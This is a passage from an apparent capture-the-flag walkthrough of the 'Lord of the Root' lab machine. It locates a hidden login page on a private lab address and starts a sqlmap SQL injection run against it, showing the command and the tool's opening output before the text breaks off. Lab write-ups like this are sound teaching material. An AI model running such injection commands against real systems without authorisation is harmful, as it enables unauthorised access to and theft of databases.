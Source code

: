 After decoding string it gives directory /978345210/index.php

![Lord%20of%20the%20root%208b49d65873a6464cb184447ee57a6e18/Untitled%2011.png](Lord%20of%20the%20root%208b49d65873a6464cb184447ee57a6e18/Untitled%2011.png)

## Exploitation

Open [http://192.168.122.146:1337/978345210/index.php](http://192.168.122.146:1337/978345210/index.php). Its a login panel

![Lord%20of%20the%20root%208b49d65873a6464cb184447ee57a6e18/Untitled%2012.png](Lord%20of%20the%20root%208b49d65873a6464cb184447ee57a6e18/Untitled%2012.png)

Lets try sqlmap to retrieve username and password. 

sqlmap -u http://192.168.122.146:1337/978345210/index.php --forms --dbs --batch

```jsx
root@kali:~# sqlmap -u http://192.168.122.146:1337/978345210/index.php --forms --dbs --batch
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.4.6#stable}
|_ -| . [,]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 03:58:27 /2020-08-25/

[03:58:27] [INFO] testing connection to the target URL
```